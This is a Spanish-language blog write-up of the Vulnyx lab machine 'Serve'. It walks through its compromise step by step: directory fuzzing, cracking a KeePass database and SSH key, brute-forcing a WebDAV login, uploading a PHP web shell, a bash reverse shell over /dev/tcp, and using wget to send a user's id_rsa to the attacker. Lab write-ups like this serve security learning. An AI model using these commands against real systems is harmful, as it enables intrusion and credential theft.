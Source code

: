 ```yaml
---
layout: post
title: "Serve"
date: 2024-04-16 11:20:23
category: Vulnyx
vm: vulnyx
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Serve </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#serve"> Vulnyx</a></td> </tr>
</table>

<br>

![serve](/notas/public/img/vulnyx/serve/serve_pc.png){:.margin}

**1\.** Verificamos dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![serve](/notas/public/img/vulnyx/serve/arp-scan.png){:.margin}


**2\.** Escanemos puertos abiertos en el host objetivo.

`sudo nmap -p -sS -sCV --open --min-rate=5000 -n -Pn 192.168.1.12 -oN report_scan`

![serve](/notas/public/img/vulnyx/serve/nmap.png){:.margin}

**3\.** Visitando el servicio apache, no tenemos nada importante.

`http://192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/80.png){:.margin}

**4\.** Fuzzeamos en busca de directorios.

`gobuster dir -u http://191.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

![serve](/notas/public/img/vulnyx/serve/gobuster.png){:.margin}

- Vistamos la primera ruta y nos dice que no tenemos permisos.

`http://192.168.1.12/javascript/`

- En la segunda ruta tampoco se ve nada importante.

`http://192.168.1.12/secrets/`

- En el tercer directorio, tenemos un panel login, pero no tenemos credenciales.

`http://192.168.1.12/webdav/`

![serve](/notas/public/img/vulnyx/serve/webdav.png){:.margin}

**5\.** Seguimos fuzzeando, ahora contemplamos la busqueda de ficheros.

`gobuster dir -u http://192.168.1.12/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![serve](/notas/public/img/vulnyx/serve/gobuster_files.png){:.margin}

**6\.** Revisamos el fichero notes haber que nos muestra.

`http://192.168.1.12/notes.txt`

![serve](/notas/public/img/vulnyx/serve/notes_txt.png){:.margin}

**7\.** Fuzzeamos el directorio secret, tambien contemplamos ficheros kdbx.

`gobuster dir -u http://192.168.1.12/secrets/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,kdbx`

![serve](/notas/public/img/vulnyx/serve/kdbx.png){:.margin}

**8\.** Nos descargamos el fichero db.kdbx visitando a esta url.

`http://192.168.1.12/secrets/db.kdbx`

**9\.** Creamos un hash que represente la contraseña del fichero.

`ls`

`keepass2john db.kdbx > kepass.txt`

![serve](/notas/public/img/vulnyx/serve/keepass2john.png){:.margin}

**10\.** Aplicamos bruteforce al hash para obtener la contraseña. 

`john --wordlist=/usr/share/wordlists/rockyou.txt kepass.txt`

![serve](/notas/public/img/vulnyx/serve/john.png){:.margin}

**11\.** Abrimos keepass y asu vez abrimos la base de datos db.kdbx .

-   pasos para tener keepass:

```
    https://keepassxc.org/
    chmod +x KeePassXC-2.7.7-x86_64.AppImage
    ./KeePassXc-2.7.7-x86_64.AppImage & disown
```

![serve](/notas/public/img/vulnyx/serve/open_keepass.png){:.margin}

**12\.** Abrimos la nota, tenemos credenciales para webdav. 

![serve](/notas/public/img/vulnyx/serve/open_admin.png){:.margin}

_- No sabemos el numero de empleado para reemplazar las X._
![serve](/notas/public/img/vulnyx/serve/keepass_show_cred.png){:.margin}

**13\.** Creamos un diccionario reemplazando cada X por un numero.

`crunch 9 9 -t w3bd4v%%% -o dict.txt`

![serve](/notas/public/img/vulnyx/serve/crunch.png){:.margin}

**14\.** Usamos hydra para bruteforcear el panel login de webdav.

`hydra -l admin -P dict.txt -f 192.168.1.12 http-get /webdav`

![serve](/notas/public/img/vulnyx/serve/hydra.png){:.margin}

_- Ya con credenciales accedemos a webdav; está vacio._

![serve](/notas/public/img/vulnyx/serve/log_webdav.png){:.margin}

**15\.** Creamos un archivo para mediante un parámetro en la url poder ejecutar comandos.

`echo "<?php system($_GET['cmd']);?>" > cmd.php`

![serve](/notas/public/img/vulnyx/serve/echo.png){:.margin}

**16\.** Lo subimos al servidor apache.

`curl --digest --user 'admin:w3bd4v513' -T 'cmd.php' 'http://192.168.1.12/webdav/'`

![serve](/notas/public/img/vulnyx/serve/curl.png){:.margin}

**17\.** Probamos si funciona ejecutando un comando al azar.

`http://102.168.1.12/webdav/cmd.php?cmd=id`

![serve](/notas/public/img/vulnyx/serve/id.png){:.margin}

**18\.** Nos ponemos en escucha en en puerto.

`sudo nc -nlvp 443`

![serve](/notas/public/img/vulnyx/serve/nc.png){:.margin}

**19\.** Nos enviamos una reverse-shell a nuestro nc.

`http://192.168.1.12/webdav/cmd.php?cmd=bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

![serve](/notas/public/img/vulnyx/serve/reverse_shell.png){:.margin}

_- Obtenemos la conexión a la máquina:_

![serve](/notas/public/img/vulnyx/serve/connected_nc.png){:.margin}

**20\.** Revisamos permisos sudo disponibles.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/sudo_l.png){:.margin}

**21\.** Nos ponemos en escucha en otro puerto, y usando wget nos enviamos el contenido del idrsa del usuario teo.

`sudo -u teo /usr/bin/wget --post-file=/home/teo/.ssh/id_rsa 192.168.1.9:4444`

![serve](/notas/public/img/vulnyx/serve/idrsa_nc.png){:.margin}

**22\.** Copiamos y guardamos la idrsa en un fichero.

`nano id_rsa`

![serve](/notas/public/img/vulnyx/serve/nano_idrsa.png){:.margin}

**23\.** Utilizamos [RSAcrack](https://github.com/d4t4s3c/RSAcrack) para crackear la contraseña.

`RSAcrack -w /usr/share/wordlists/rockyou.txt -k id_rsa`

![serve](/notas/public/img/vulnyx/serve/rsacrack.png){:.margin}

**24\.** Ahora accedemos por ssh como el usuario teo proporcionando la contraseña obtenida.

`ssh -i id_rsa teo@192.168.1.12`

![serve](/notas/public/img/vulnyx/serve/ssh.png){:.margin}

**25\.** Revisamos permisos sudo del usuario, vemos que podemos ejecutar el binario 'bro' como root.

`sudo -l`

![serve](/notas/public/img/vulnyx/serve/teo_sudo_l.png){:.margin}

**26\.** Si ejecutamos este binario, nos dice que ejecutemos como 'bro curl'.

`sudo bro`

![serve](/notas/public/img/vulnyx/serve/bro.png){:.margin}

**27\.** Una vez ejecutado, al final(:) nos lanzamos una bash. 

`!/bin/bash`

![serve](/notas/public/img/vulnyx/serve/sudo_bro_puntos.png)
![serve](/notas/public/img/vulnyx/serve/sudo_bro_bash.png)

**28\.** Ya logrado el super-usuario en la máquina, finalizamos obteniendo la flag de root. 

`cat /root/root.txt`

![serve](/notas/public/img/vulnyx/serve/flag.png)

<br>

<a href="#">_Finalizado._</a>
